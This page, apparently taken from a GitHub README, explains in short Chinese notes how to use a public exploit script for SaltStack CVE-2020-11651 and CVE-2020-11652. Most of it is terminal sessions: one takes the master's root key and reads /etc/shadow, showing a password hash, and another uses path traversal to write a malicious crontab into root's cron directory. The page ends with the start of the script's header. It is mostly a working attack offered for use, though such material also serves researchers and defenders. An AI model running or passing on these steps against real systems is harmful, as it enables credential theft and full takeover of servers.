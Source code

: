 任意文件读取:

    root@kalimah:~/salt# python2 exploit.py --master 192.168.115.130 -r /etc/shadow
    [+] Salt version: 2019.2.0
    [ ] This version of salt is vulnerable! Check results below
    [+] Checking salt-master (192.168.115.130:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651...
    [*] root key obtained: GkJiProN36+iZ53buhvhm3dWcC/7BZyEomu3lSFucQF9TkrCRfA32EIFAk/yyQMkCyqZyxjjp/E=
    [+] Attemping to read /etc/shadow from 192.168.115.130
    root:$6$7qfolaa/$3yhszWj/VUJjfPaqr1yO6NLgV/FhHnVT9Pr6spwJ/F0BJw5vFM.3KjtwcnnuGo5uSJJkLrd28jXrmVZUD9nEI/:17812:0:99999:7:::
    daemon:*:17785:0:99999:7:::
    bin:*:17785:0:99999:7:::
    sys:*:17785:0:99999:7:::
    sync:*:17785:0:99999:7:::
    games:*:17785:0:99999:7:::
    man:*:17785:0:99999:7:::
    [...]

可以使用`--upload src`和`--upload dest`上传文件。注意目标必须是相对路径:

    root@kalimah:~/salt#  python2 exploit.py --upload-src evil.crontab --upload-dest ../../../../../../var/spool/cron/crontabs/root
    [+] Salt version: 2019.2.0
    [ ] This version of salt is vulnerable! Check results below
    [+] Checking salt-master (127.0.0.1:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651...
    [*] root key obtained: GkJiProN36+iZ53buhvhm3dWcC/7BZyEomu3lSFucQF9TkrCRfA32EIFAk/yyQMkCyqZyxjjp/E=
    [-] Destination path must be relative
    [+] Attemping to upload evil.crontab to ../../../../../../var/spool/cron/crontabs/root on 127.0.0.1
    [ ] Wrote data to file /srv/salt/../../../../../../var/spool/cron/crontabs/root

### Requirements

-   Python 2 or 3
-   Salt (`pip3 install salt`)

### poc

    #!/usr/bin/env python
    #
    # Exploit for CVE-2020-11651 and CVE-2020-11652
    # Written by Jasper Lievisse Adriaanse (https://github.com/jasperla/CVE-2020-11651-poc)
    # This exploit is based on this checker script:
    # https://github.com/rossengeorgiev/salt-security-backports
